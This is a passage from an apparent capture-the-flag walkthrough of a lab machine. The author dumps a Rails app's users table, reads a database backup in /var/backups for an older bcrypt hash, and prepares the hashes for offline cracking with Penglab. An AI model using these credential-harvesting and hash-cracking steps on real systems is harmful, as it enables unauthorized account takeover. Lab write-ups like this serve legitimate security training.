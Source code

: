 
The `users` table is most interesting:

    
    
    blog_development=> select * from users;
    WARNING: terminal is not fully functional
    -  (press RETURN) id | username |       email       |         created_at         |         update
    d_at         |                       password_digest                        | ca
    n_write 
    ----+----------+-------------------+----------------------------+---------------
    -------------+--------------------------------------------------------------+---
    --------
      1 | bill     | bill@mail.htb     | 2020-08-26 10:24:03.878232 | 2020-08-28 07:
    25:07.771852 | $2a$12$bRdLRbs0ui6fMavqMcXC1.4YY4TLIzfJfqNrm1AqWsZKLYWRxwc/2 | t
      2 | jennifer | jennifer@mail.htb | 2020-08-27 05:44:28.551735 | 2020-08-28 07:
    25:32.886657 | $2a$12$sZac9R2VSQYjOcBTTUYy6.Zd.5I02OnmkKnD3zA6MqMrzLKz0jeDO | t
     18 | 0xdf     | 0xdf@htb.htb      | 2020-11-06 21:08:56.251308 | 2020-11-06 21:
    08:56.251308 | $2a$12$go.ikIXm.O1zGm8V.UIS5uN.U8Ffv4YesbXRNeP2bzQl2iYl5xxEW | f
    (3 rows)
    

There are two hashes in there that don’t belong to a user I created, but both
match what I found in the gitweb dump earlier and was unable to crack.

#### Database Backup

In `/var/backups` there’s an SQL dump file that contains the same two users,
but this time bill’s password hash is different:

    
    
    bill@jewel:/var/backups$ cat dump_2020-08-27.sql 
    ...[snip]...
    --
    -- Data for Name: users; Type: TABLE DATA; Schema: public; Owner: rails_dev
    --                              
                                                                                                         
    COPY public.users (id, username, email, created_at, updated_at, password_digest) FROM stdin;
    2       jennifer        jennifer@mail.htb       2020-08-27 05:44:28.551735      2020-08-27 05:44:28.551735      $2a$12$sZac9R2VSQYjOcBTTUYy6.Zd.5I02OnmkKnD3zA6MqMrzLKz0jeDO
    1       bill    bill@mail.htb   2020-08-26 10:24:03.878232      2020-08-27 09:18:11.636483      $2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW
    \.  
    ...[snip]...
    

#### Crack Hash

I fired up [Penglab](https://github.com/mxrch/penglab) and tossed the hash in.
I set it up like:

    
    
    mode = 3200
    hashes = """
    bill:$2a$12$bRdLRbs0ui6fMavqMcXC1.4YY4TLIzfJfqNrm1AqWsZKLYWRxwc/2
    bill-backup:$2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW
    jennifer:$2a$12$sZac9R2VSQYjOcBTTUYy6.Zd.5I02OnmkKnD3zA6MqMrzLKz0jeDO
    """
    with open('hashes','w') as f:
      f.write(hashes)
    